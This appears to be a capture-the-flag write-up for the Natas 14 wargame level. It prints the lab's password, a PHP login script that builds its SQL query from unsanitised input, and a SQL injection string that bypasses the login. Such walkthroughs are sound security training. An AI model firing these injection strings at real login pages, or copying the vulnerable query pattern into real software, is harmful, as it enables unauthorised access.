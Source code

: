 Navigating to the webpage and using the password we got from the previous level

username:```natas14```       password:```qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/230b7db8-f55b-4cee-9398-64b4260c2da8)

Checking the source code, we find this php script

```php
<?php
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas14', '<censored>');
    mysqli_select_db($link, 'natas14');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    if(mysqli_num_rows(mysqli_query($link, $query)) > 0) {
            echo "Successful login! The password for natas15 is <censored><br>";
    } else {
            echo "Access denied!<br>";
    }
    mysqli_close($link);
} else {
?>
```
Explaining the code
```
1. The script checks if the "username" key exists in the user input.
2. It establishes a connection to a MySQL database.
3. A SQL query is constructed using user-supplied "username" and "password" values without proper sanitization.
4. If the "debug" key is present, the executed query is displayed (a potential security risk).
5. The query is executed, and if it returns any rows, a successful login message is echoed.
6. If the login fails (no rows returned), an "Access denied" message is displayed.
7. The database connection is closed.
```
 From the source code we get the sql query to be this

 ```
SELECT * from users where username="<username>" and password="<password>"
```
You’ll notice that the user input is not being filtered, which means we can use escape characters to make the query act differently than it should be

To bypass the login page

username:```" '1'='1'#```    password:```aaa```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7bbb4b62-c2df-4683-99d6-8536058dd0c9)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/13202054-1539-4e02-956d-437c3fe06c0b)
